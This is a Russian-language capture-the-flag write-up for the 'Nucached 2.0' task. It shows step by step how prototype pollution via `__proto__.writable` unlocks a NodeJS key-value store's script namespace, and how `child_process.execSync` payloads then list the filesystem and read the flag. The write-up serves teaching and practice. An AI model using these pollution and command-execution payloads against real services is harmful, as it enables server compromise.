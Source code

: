 # Nucached 2.0: Write-up

Перед прочтением этого райтапа рекомендуем прочесть [разбор задания Nucached](../nucached/WRITEUP.md), если вы его еще не прочли или не решили это задание.

Проделав тот же фокус, что и в предыдущей версии задания, получаем неутешительный результат:

```
> set main.__proto__.readable 1
success

> ls
Store secrets:
  secrets.flag = "this_is_not_the_flag_you_are_looking_for"
  secrets.readable = 1
Store main:
  main.hello = "Hello, world!"
  main.readable = 1
Store scripts (unwritable) (executable):
  scripts.ping = "\"Pong\""
  scripts.uptime = "((Date.now() - startedDate) / 1000) + \"s\""
  scripts.readable = 1
Store readable (unwritable) = undefined
```

Особо настойчивые люди могут специально убедиться, что флаг `this_is_not_the_flag_you_are_looking_for` не работает. Отматываем все назад.

Итак, по сравнению с предыдущей версией задания появился дополнительный раздел `scripts`:

```
> ls
Store secrets (unreadable) = ???
Store main:
  main.hello = "Hello, world!"
Store scripts (unwritable) (executable):
  scripts.ping = "\"Pong\""
  scripts.uptime = "((Date.now() - startedDate) / 1000) + \"s\""
```

По-видимому, там хранятся произвольные скрипты, которые затем можно исполнять?..

```
> help
nucached: a revolutionary alternative to memcached!
(c) 2003, Vasya Pupkin
Usage:
  help: Show this message
  get key: Show key key
  set key value: Set the value of key to value
  ls: List all keys
  exec key: Execute script from key key
Nested key-value objects are supported, e.g. set a.b.c value.
```

Да, действительно. Убедимся, что все работает:

```
> exec scripts.uptime
"74.42s"
```

Попробуем добавить свой скрипт:

```
> set scripts.test "1 + 2"
unwritable namespace scripts
```

Действительно. Исходных кодов у нас нет, но из исходного кода первой задачи и из общих размышлений можно догадаться, что нужно установить поле `writable` (а не `readable`) тем же методом, как в прошлом таске:

```
> set main.__proto__.writable 1
success

> set scripts.test "1 + 2"
success

> exec scripts.test
3
```

Итак, у нас, по-видимому, есть RCE. Осталось понять, как в NodeJS выполнять консольные команды. Пять минут гуглежа спустя видим документацию модуля [child_process](https://nodejs.org/docs/latest/api/child_process.html) и функции `execSync` и составляем эксплоит:

```
> set scripts.test "require('child_process').execSync('ls -la /')"
success

> exec scripts.test
{"type":"Buffer","data":[116,111,...,114,10]}
```

Это не очень удобно парсить глазами, поэтому переведем в UTF-8:

```
> set scripts.test "require('child_process').execSync('ls -la /', {encoding: 'utf-8'})"
success

> exec scripts.test
"total 60\ndrwxr-xr-x    1 root     root           120 Mar 12 13:00 .\ndrwxr-xr-x    1 root     root           120 Mar 12 13:00 ..\ndrwxr-xr-x    3 root     root          4096 Mar 11 10:43 app\ndrwxr-xr-x    2 root     root          4096 Feb 22 18:25 bin\ndrwxr-xr-x    1 root     root           320 Mar 12 13:00 dev\ndrwxr-xr-x    1 root     root          4096 Feb 22 18:25 etc\n-rw-r--r--    1 nobody   nobody          54 Mar 12 13:00 flag\ndrwxr-xr-x    1 root     root          4096 Feb 22 18:25 home\ndrwxr-xr-x    7 root     root          4096 Feb 22 18:25 lib\ndrwxr-xr-x    5 root     root          4096 Feb 10 16:45 media\ndrwxr-xr-x    2 root     root          4096 Feb 10 16:45 mnt\ndrwxr-xr-x    1 root     root          4096 Feb 22 18:25 opt\ndr-xr-xr-x  259 nobody   nobody           0 Mar 12 13:00 proc\ndrwx------    4 root     root          4096 Feb 22 18:25 root\ndrwxr-xr-x    1 root     root            40 Feb 10 16:45 run\ndrwxr-xr-x    2 root     root          4096 Feb 10 16:45 sbin\ndrwxr-xr-x    2 root     root          4096 Feb 10 16:45 srv\ndrwxr-xr-x    2 root     root          4096 Feb 10 16:45 sys\ndrwxrwxrwt    1 root     root            60 Mar 12 13:01 tmp\ndrwxr-xr-x    7 root     root          4096 Feb 22 18:25 usr\ndrwxr-xr-x   12 root     root          4096 Feb 10 16:45 var\n"
```

Отформатируем:

```
total 60
drwxr-xr-x    1 root     root           120 Mar 12 13:00 .
drwxr-xr-x    1 root     root           120 Mar 12 13:00 ..
drwxr-xr-x    3 root     root          4096 Mar 11 10:43 app
drwxr-xr-x    2 root     root          4096 Feb 22 18:25 bin
drwxr-xr-x    1 root     root           320 Mar 12 13:00 dev
drwxr-xr-x    1 root     root          4096 Feb 22 18:25 etc
-rw-r--r--    1 nobody   nobody          54 Mar 12 13:00 flag
drwxr-xr-x    1 root     root          4096 Feb 22 18:25 home
drwxr-xr-x    7 root     root          4096 Feb 22 18:25 lib
drwxr-xr-x    5 root     root          4096 Feb 10 16:45 media
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 mnt
drwxr-xr-x    1 root     root          4096 Feb 22 18:25 opt
dr-xr-xr-x  259 nobody   nobody           0 Mar 12 13:00 proc
drwx------    4 root     root          4096 Feb 22 18:25 root
drwxr-xr-x    1 root     root            40 Feb 10 16:45 run
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 sbin
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 srv
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 sys
drwxrwxrwt    1 root     root            60 Mar 12 13:01 tmp
drwxr-xr-x    7 root     root          4096 Feb 22 18:25 usr
drwxr-xr-x   12 root     root          4096 Feb 10 16:45 var
```

Читаем `/flag`:

```
> set scripts.test "require('child_process').execSync('cat /flag', {encoding: 'utf-8'})"
success

> exec scripts.test
"ugra_you_should_have_rewritten_it_in_rust_uvk66bmc8mkq"
```

Флаг: **ugra_you_should_have_rewritten_it_in_rust_uvk66bmc8mkq**
